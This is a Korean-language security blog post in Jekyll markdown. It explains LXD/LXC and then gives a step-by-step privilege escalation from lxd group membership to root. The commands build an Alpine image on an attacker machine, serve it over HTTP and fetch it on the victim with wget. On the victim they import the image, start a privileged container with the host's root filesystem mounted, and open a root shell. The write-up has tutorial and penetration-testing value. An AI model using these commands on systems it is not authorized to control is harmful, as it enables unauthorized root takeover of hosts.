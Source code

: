 ```yaml
---
layout: single
title: Privilege Escalation Using LXD_LXC Group Assignment
categories: Other-Vuln
tag: [lxd, lxc, LXD_LXC Group Assignment, Privilege Escalation]
toc: true
author_profile: false
---
```


# LXD/LXC 란 무엇인가?
## lxc
- 리눅스 컨테이너 기술의 초기 형태로, 프로세스와 자원을 격리하여 가벼운 가상화 환경을 제공하는데 사용되며, 이를 통해 머신의 여러 인스턴스를 운영할 수 있다.
- 현재로서는, 개발 및 테스트 환경에서 다양한 리눅스 배포판 및 특정 소프트웨어의 버전 테스트에 사용되며, 여러 서비스를 단일 호스트에서 격리하여 운영할 수 있다.

## lxd 
- lxc를 기반으로 현대적인 시스템 컨테이너 매니저로서, lxc의 상위 레벨 도구이다.
- REST API 를 통해 컨테이너 관리 자동화 및 스크립트화 할 수 있으며, 다양한 네트워크 설정을 지원하고 이미지 서버를 통해 다양한 리눅스 배포판 이미지를 다운로드하고 사용할 수 있다.
- 현재로서는, 개발 테스트, 어플리케이션 배포, 격리된 호스팅 서비스, 클라우드 환경에서의 경량화된 가상 머신 대안으로 사용된다.

# LXD Privilege Escalation
<div class="notice">
  로컬 시스템의 침투에 성공한 경우 sudo 권한이 없더라도 접속한 계정이 lxd 그룹의 포함되어 있다면, 해당 호스트에서 루트로 권한 상승이 가능하다.
  lxd는 lxd unix 소켓에 대한 쓰기 액세스 권한을 가지고 있을 경우, 작업을 수행하는 루트 프로세스이므로, 이를 악용하는 여러 방법이 존재한다.
</div>

![그림 1-1](/assets/image/vuln/Other-Vuln/LXD_LXC/image.png)
- 사진과 같이 115(lxd) 그룹에 속해있을 경우 이를 악용할 수 있게 된다.

<span style="font-weight: bold; color: red;">해당 공격을 수행하기 위해서는 공격자 PC와 희생자 PC에서 수행해야하는 단계들이 존재한다.
 </span>

## 공격자 PC
1. git을 통해 공격자 pc에 build-alpine를 가져온다.
2. build-alpine를 root 권한으로 실행한다.
3. 임의의 웹 서버를 열어 tar파일을 희생자 pc에서 다운받을 수 있도록 한다.

## 희생자 PC
1. alpine 이미지를 다운한다.
2. lxd에 대한 이미지를 가져온다.
3. 새로운 컨테이너 안에서 이미지를 초기화 한다.
4. /root 디레렉터리 내부에 컨테이너를 마운트한다.

### 공격자 PC에서의 사전 준비

```
git clone https://github.com/saghul/lxd-alpine-builder.git<br>
cd lxd-alpine-builder<br>
sudo ./build-alpine
```

![그림 1-2](/assets/image/vuln/Other-Vuln/LXD_LXC/image-1.png)<br>
![그림 1-3](/assets/image/vuln/Other-Vuln/LXD_LXC/image-2.png)

### 희생자 PC에서의 사전 준비

```
wget http://ip:port/~~tar.gz
lxc image import ./~~tar.gz --alias myimage
lxc image list
```

![그림 1-4](/assets/image/vuln/Other-Vuln/LXD_LXC/image-3.png)

```
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

<div class="notice">
  위 과정을 모두 거쳐 정상적으로 root 디렉터리에 마운트가 되면,  root shell을 획득하게 된다.
</div>

<div class="notice">
    <span style="font-weight: bold; color: red;">
        uid=0(root) gid=0(root)
    </span>
</div>